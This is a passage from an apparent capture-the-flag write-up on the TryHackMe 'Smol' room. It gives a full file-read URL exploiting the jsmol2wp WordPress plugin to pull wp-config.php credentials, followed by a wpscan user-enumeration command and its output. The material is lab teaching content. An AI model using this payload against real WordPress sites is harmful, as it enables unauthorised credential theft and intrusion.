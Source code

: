 Apparently we can simply read the `wp-config.php` file which includes the database credentials and other information. I modified the URL from the PoC to `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`, this should give me the content of the config file.

![](/assets/blog/Smol/wpconf.png)

With that we got a password and a username from the config file. The next thing to do is checking the users present on the WordPress site. I used `wpscan` for that again:
```sh
wpscan --url http://www.smol.thm/ --enumerate u
```

We got the following users:
```
[i] User(s) Identified:

[+] Jose Mario Llado Marti
 | Found By: Rss Generator (Passive Detection)

[+] wordpress user
 | Found By: Rss Generator (Passive Detection)

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```